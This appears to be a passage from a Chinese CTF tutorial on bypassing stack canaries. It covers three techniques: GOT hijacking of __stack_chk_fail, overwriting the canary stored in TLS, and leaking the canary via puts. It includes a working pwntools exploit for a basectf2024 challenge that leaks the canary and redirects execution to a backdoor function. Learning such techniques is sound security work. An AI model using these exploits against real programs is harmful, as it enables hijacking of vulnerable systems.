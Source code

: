 

#### 三：劫持__stack_chk_fail 函数

 已知 Canary 失败的处理逻辑会进入到 `__stack_chk_fail`ed 函数，`__stack_chk_fail`ed 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。 步骤如下：

1. **确定 `__stack_chk_fail` 的 GOT 表地址**

可以通过反汇编程序或者使用工具（如 `readelf`、`objdump`）来查看程序的 GOT 表，找到 `__stack_chk_fail` 的 GOT 表项地址。

2. **找到可利用的漏洞**

通常是缓冲区溢出漏洞或格式化字符串漏洞。利用这些漏洞可以控制程序的执行流程，并修改 `__stack_chk_fail` 的 GOT 表项。

3. **构造 Payload**

Payload 的目的是将 `__stack_chk_fail` 的 GOT 表项中的地址修改为攻击者想要执行的代码地址，比如一个 shellcode 的地址或者一个可以执行系统命令的函数地址。

4. **触发 Canary 检查**

当程序执行到 Canary 检查失败的情况时，会调用 `__stack_chk_fail`，此时程序会跳转到被修改后的地址执行。



#### 四：覆盖 TLS 中储存的 Canary 值

 已知 Canary 储存在 TLS 中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。 



#### 五：利用puts遇0截断

puts函数是C 标准库中的一个输出函数，其原型为 `int puts(const char *s);`，功能是将字符串 `s` 输出到标准输出（通常是终端），并在输出结束后自动添加一个换行符 `'\n'`。

`puts` 函数会从传入的字符串指针开始，逐个字符输出，直到遇到 `'\0'` 为止。一旦遇到 `'\0'`，它就会停止输出，`'\0'` 本身不会被输出。

案例：basectf2024-你为什么不让我溢出：

exp：

```python
from pwn import *
io=process('./pwn')
back=0x4011B6
#gdb.attach(io,'b main')
io.recv()
payload=b'a'*(0x70-8+1)#这里刚刚还压到canary的值导致前面的0都没有了，利用的是canary末尾的\x00。
io.send(payload)
io.recvuntil(b'a'*0x68)
canary=u64(io.recv(8))-0x61 #需要把多压的一位a（61）给减去。因为\0不会被puts输出。
print(hex(canary))
payload=b'a'*0x68+p64(canary)+b'a'*8+p64(0x40101a)+p64(back)
io.sendline(payload)
io.interactive()
```

## 废话

basectf2024的pwn题真的出的很不错，需要练习就去打一打，是我学长出的，非常好，很适合入门。



